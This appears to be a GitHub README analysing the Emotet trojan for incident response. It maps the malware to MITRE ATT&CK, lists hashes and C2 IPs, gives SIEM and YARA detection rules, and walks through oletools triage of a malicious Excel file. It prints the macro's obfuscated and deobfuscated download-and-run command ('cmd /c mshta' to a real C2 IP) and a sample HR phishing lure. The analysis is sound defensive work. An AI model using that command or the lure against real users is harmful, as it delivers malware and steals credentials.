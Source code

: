 # Emotet - The Malware Kingpin Exposed | Complete DFIR and malware analysis

Linkedin - https://www.linkedin.com/in/deepanshukhanna/
Youtube Video link for complete analysis - https://www.youtube.com/watch?v=pZceKO0QJQY

What is Emotet?
Emotet is a sophisticated, modular banking Trojan that evolved into a botnet used to deliver other types of malware such as ransomware (e.g., Ryuk, Conti) and steal sensitive information. It is primarily known for its highly effective phishing campaigns and worm-like propagation.

Initially discovered in 2014, Emotet was designed to steal banking credentials, but it later developed into a malware-as-a-service (MaaS) platform used by multiple cybercrime groups.

  Why Emotet is famous
1. Modular Architecture
Emotet consists of a main loader and multiple modules. The loader installs Emotet, maintains persistence, and downloads additional modules, including:
- Credential stealer
- Email harvester
- Spam bot
- Malware downloader (for TrickBot, QakBot, Ryuk, etc.)

2. Polymorphic Code
Emotet changes its payload structure frequently to avoid antivirus detection using polymorphism, where the malware dynamically alters its code during replication.

3. Command and Control (C2) Infrastructure
The botnet uses encrypted C2 communication and hardcoded IP lists for redundancy. Its architecture is often peer-to-peer, enhancing its resilience against takedowns.

-------------------------------------------------------------------------------------
Email Lures

From: hr-payroll@company-internal.com
To: employee@company.com
Subject: FY2025 Salary Adjustment Notice

Hi,

We’ve completed the annual compensation review. Your salary adjustment details are in the attached confidential memo.

Please do not share this document externally.

Regards,  
Meera Chauhan  
HR Manager – Compensation  
Company Internal HR  
Attachment: Salary_Adjustment_FY2025.doc
---------------------------------------------------------------------------------------
[Phishing Email]
     |
     v
[Malicious Word/Excel Doc w/ Macro]
     |
     v
[User Enables Macros]  --- the macro code contained the dropper and execution from the trusted paths / folders 
     |
     v
[Emotet Loader Execution]
     |
     v
[Connects to C2 Server]
     |
     +--> [Download Modules]
     |         ├─ Credential Stealer
     |         ├─ Email Stealer
     |         └─ Propagation Tools
     |
     +--> [Dropper for Payloads]
               ├─ TrickBot
               ├─ QakBot
               └─ Ransomware (e.g., Ryuk)

----------------------------------------------------------------
MITRE ATT&CK Mapping for Emotet
Initial Access	Phishing: Spearphishing Attachment -	T1566.001
Execution	User Execution: Malicious Document	- T1204.002
Persistence	Registry Run Keys / Startup Folder -	T1547.001
Privilege Escalation	Process Injection -	T1055
Defense Evasion	Obfuscated Files or Information -	T1027
Credential Access	Credentials from Web Browsers -	T1555.003
Discovery	System Information Discovery -	T1082
Lateral Movement	SMB/Windows Admin Shares -	T1021.002
Command & Control	Encrypted Channel over HTTP/S -	T1573.001
Collection	Email Collection -	T1114
Impact	Data Encrypted for Impact (via Ryuk) -	T1486

----------------------------------------------------------------
Emotet: Indicators of Compromise (IOCs)
Hashes (Sample Payloads)
SHA256: 3c8b3b7db9fcb73a3b55e9e4bb5c9d5c68d42128c87e478f92e165ba2ecf4e2a
SHA256: 21db61f8e72e2b237d84e78c8cbfb3834e38f229e7fcce44edb77293e4e18f3a

Known C2 IPs / Domains (frequently rotate)
185.149.120.14
185.7.214.7
45.95.168.196
forextart.com
gloryhotel[.]top

Filenames Used
INVOICE_458273.doc
Shipment_Tracking_032023.xls
Resume_JamesBrown.doc

File Paths

C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Templates\randomname.exe
C:\ProgramData\<random>.exe

------------------------------------------------------------------

SIEM detection ---

title: Emotet Execution via Office Macros
id: a1b2c3d4-5678-90ab-cdef-1234567890ef
status: stable
description: Detects suspicious use of Office applications spawning PowerShell or CMD indicative of Emotet infection
author: Security_analyst
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    ParentImage|endswith:
      - '\WINWORD.EXE'
      - '\EXCEL.EXE'
    Image|endswith:
      - '\powershell.exe'
      - '\cmd.exe'
  condition: selection
fields:
  - CommandLine
  - ParentImage
  - Image
  - User
  - Hostname
level: high
tags:
  - attack.execution
  - attack.t1204.002
  - malware.emotet

------------------------------------------------
Yara rule 

rule Emotet_Loader_Detection
{
    meta:
        description = "Detects Emotet malware loader"
        author = "security_analyst"
        date = "2025-04-12"
        malware_family = "Emotet"
        reference = "https://malpedia.caad.fkie.fraunhofer.de/details/win.emotet"
    strings:
        $mz = { 4D 5A }                         // PE Header
        $http1 = "GET / HTTP/1.1" ascii
        $ua1 = "User-Agent: Mozilla/5.0" ascii
        $c2str = ".php?id=" ascii
        $exe_indicator = "Software\\Microsoft\\Windows\\CurrentVersion\\Run" ascii
        $randexe = "temp" ascii wide
        $email_harvest = "Outlook.Application" ascii
    condition:
        uint16(0) == 0x5A4D and
        all of ($mz*) and
        3 of ($http1, $ua1, $c2str, $exe_indicator, $email_harvest)
}
----------------------------------------------------------------
Emotet analysis --

sudo mraptor -m emotet.xls -- to detect the macros
sudo msodde -a emotet.xls  -- to detect the DDE links
sudo oleobj emotet.xls -v  -- oleobj is a script to extract embedded objects from OLE files.
sudo olebrowse emotet.xls  -- browser based olevba analysis 
								--- save it in the .bin (stream file)
								
sudo cat stream.bin

sudo oleid emotet.xls  
sudo olevba emotet.xls
sudo olevba emotet.xls --decode  ---  showing all obfuscated strings decoded
sudo olevba emotet.xls --reveal  -- macro source code with VBA strings deobfuscated

----------------
Original: cmd /c m^sh^t^a h^tt^p^:/^/0xb907d607/c^c.h^tm^l"

Cleaned version: cmd /c mshta http://0xb907d607/cc.html

hexadecimal to IP address -- https://www.browserling.com/tools/hex-to-ip
			0xb907d607  === 185.7.214.7

----------------------------------------
sudo qu1cksc0pe --file emotet.xls --vtFile
sudo qu1cksc0pe --file emotet.xls --domain
sudo qu1cksc0pe --file emotet.xls --docs

------------------------------------------------------------


This Excel file contains a hidden malicious macro (a small program) that runs automatically when the file is opened. Here's what it does:

1. What Happens When You Open the File?
The macro Auto_Open triggers immediately (like an autostart virus).

It runs a hidden command that downloads and executes malware from a attacker’s server.

2. The Malicious Command (Deobfuscated)
The macro contains an obfuscated (hidden) command:

cmd
cmd /c mshta http://0xb907d607/cc.html
cmd /c → Runs a command in the Windows terminal.

mshta → Executes a malicious HTML file (often used to run scripts silently).

http://0xb907d607/cc.html → An attacker-controlled website (IP in hex: 185.7.214.7).

3. What Does This Do?
Downloads malware from http://185.7.214.7/cc.html.

Executes it silently using mshta (Microsoft HTML Application).

Likely installs Emotet (a dangerous banking trojan/spyware) or ransomware.

4. Red Flags
Auto-execution (runs as soon as Excel opens).
Obfuscated URLs (hidden in hex & with ^ to evade detection).
Uses mshta (a common malware trick to bypass security).
Connects to a shady IP (185.7.214.7 – likely a malware server).
